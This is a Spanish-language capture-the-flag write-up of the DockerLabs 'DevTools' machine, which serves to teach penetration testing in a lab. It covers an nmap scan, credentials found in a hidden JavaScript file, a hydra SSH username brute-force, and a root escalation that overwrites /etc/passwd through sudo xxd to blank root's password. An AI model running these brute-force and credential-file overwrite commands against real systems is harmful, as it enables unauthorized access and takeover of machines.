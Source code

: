 Máquina "DevTools" de [DockerLabs](https://dockerlabs.es)

Autor: [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

Dificultad: Medio



![DevTools](./images/devtools/img/dockerlabs.png)



# Reconocimiento

Empezamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- -Pn -n --open --min-rate 5000 -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Sun Dec 15 10:59:27 2024 as: nmap -sSVC -p- -Pn -n --open --min-rate 5000 -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2024-12-15 10:59:27 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 4d:ea:92:ba:53:e3:b8:dc:71:95:50:19:87:6b:b2:6d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHySp29oLAUPUU27byLQHAEweVlLXLNNoJgJaI/3JeRE+R+8K0xWa4pAawQpPvD2Xrpuf7MovEvk2DSIgp85zoY=
|   256 fa:77:68:76:dc:8e:b1:cd:56:5f:c1:79:89:ad:fa:78 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINOqd4h1jKYg1fOng1zCM8B/Z0aA4iM5Q7lEm6SW+n7p
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: \xC2\xBFQu\xC3\xA9 son las DevTools del Navegador?
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec 15 10:59:36 2024 -- 1 IP address (1 host up) scanned in 8.57 seconds
```

Solo tenemos dos puertos abiertos:

•`Puerto 22: OpenSSH 9.2p1`

•`Puerto 80: Apache httpd 2.4.62`

y nos enfrentamos a un `Debian`.

Si vamos a la web, nos saltará un cuadro que nos pide iniciar sesión, pero nosotros no tenemos la contraseña. Luego de probar un rato, decido leer el código fuente de la página (`curl 172.17.0.2`) y veo que dice lo siguiente en el principio:

```html
<script src="backupp.js" defer></script>
```

Viendo esto, puede ser que el archivo se intente ocultar ya que su nombre es "backup" pero con dos "p", por lo que si lo revisamos, veremos que nos da las credenciales:

![Credenciales](./images/devtools/img/credenciales.png)

si probamos las credenciales en la web nos funcionan correctamente, pero no para entrar por ssh, pero si revisamos el comentario:

```css
// Antigua contraseña beluleroh
```

(Supongo que mario quiso poner "baluleroh" (su perro) pero ahi en la maquina puso "beluleroh")

Por lo que podriamos intentar un ataque de `hydra` pero con usuarios.

# Intrusión

Continuamos haciendo el ataque:

```
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p baluleroh -V ssh://172.17.0.2 -t 64
```



![Carlos-pass](./images/devtools/img/hydra.png)

Ya tenemos credenciales, por lo que continuaremos conectándonos por ssh.

# Escalada de privilegios

### Carlos

Siendo el usuario carlos, ejecuto un `sudo -l` y veo que puedo ejecutar `ping` como root y `xxd`, por lo que luego de buscar, veo que puedo editar el `/etc/passwd` de la siguiente manera:

```css
echo root::0:0:root:/root:/bin/bash | sudo xxd | sudo xxd -r - "/etc/passwd"
```

Por lo que una vez ejecutado eso, ejecutamos `su` y escalamos a root.

## Root

![Root](./images/devtools/img/root.png)

Gracias por leer :)